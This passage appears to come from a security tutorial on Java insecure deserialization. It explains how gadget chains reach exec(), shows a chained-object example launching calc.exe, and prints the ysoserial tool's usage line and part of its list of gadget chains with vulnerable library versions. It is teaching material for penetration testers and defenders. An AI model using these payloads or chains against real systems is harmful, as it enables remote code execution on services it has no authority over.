 When the target deserializes the payload, the `command` attribute will be set and the `exec()` command in `readObject()` will be executed, launching a calculator on Windows.&#x20;

While this example was very clear, most real-world exploits use multiple **chained** gadgets to eventually reach a sensitive function with user input. This is possible because attributes can be Objects as well, and their attributes can be more Objects, etc. Creating such a payload is very similar to the example above but just requires more `new` objects in arguments like this:

```java
EvilUncle instance = new EvilUncle(new EvilParent(new EvilChild("calc.exe")));
```

### ysoserial

Instead of searching and creating new gadget chains for every deserialization issue you find, often well-known chains in libraries used in many projects can be enough.&#x20;

{% embed url="https://github.com/frohoff/ysoserial/tree/master" %}
Tool for generating Java Insecure Deserialization payload using well-known chains
{% endembed %}

The `ysoserial` tool contains a [collection of payloads](https://github.com/frohoff/ysoserial/tree/master/src/main/java/ysoserial/payloads) that work on different versions and libraries. Depending on which your target uses, any of these can be a quick win.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ java -jar ysoserial.jar
</strong>
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
Available payload types:
     Payload             Authors                                Dependencies                                                                                                                                                                                        
     -------             -------                                ------------                                                                                                                                                                                        
     AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                                      
     BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
     C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
     Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                         
     Clojure             @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
     CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
     CommonsCollections1 @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections2 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections3 @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections4 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
     FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                            
     Groovy1             @frohoff                               groovy:2.3.9                                                                                                                                                                                        